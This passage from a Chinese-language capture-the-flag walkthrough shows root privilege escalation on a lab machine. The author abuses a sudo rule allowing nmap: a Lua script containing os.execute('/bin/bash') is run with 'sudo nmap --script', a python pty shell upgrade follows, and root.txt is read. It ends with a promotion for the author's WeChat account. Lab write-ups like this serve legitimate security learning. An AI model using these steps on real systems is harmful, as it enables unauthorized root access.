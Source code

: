 拿到user.txt，找一下提权信息

nmap提权
------

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

找到可以用root用户身份执行nmap，查找下nmap如何提权

```
https://gtfobins.github.io/gtfobins/nmap/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

有了提权方法后我们来验证一下

```
`echo 'os.execute("/bin/bash")' >shell``sudo nmap --script=shell`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

提权成功，找一下flag（直接输入有点问题，输入的内容不回显直接复制python3 -c 'import pty;pty.spawn("/bin/bash")'切换到交互shell即可

```
`cd /root``ls``cat root.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到root.txt，游戏结束。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**这篇文章到这里就结束了,喜欢打靶的小伙伴可以关注"伏波路上学安全"微信公众号,或扫描下面二维码关注,我会持续更新打靶文章,让我们一起在打靶中学习进步吧.**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)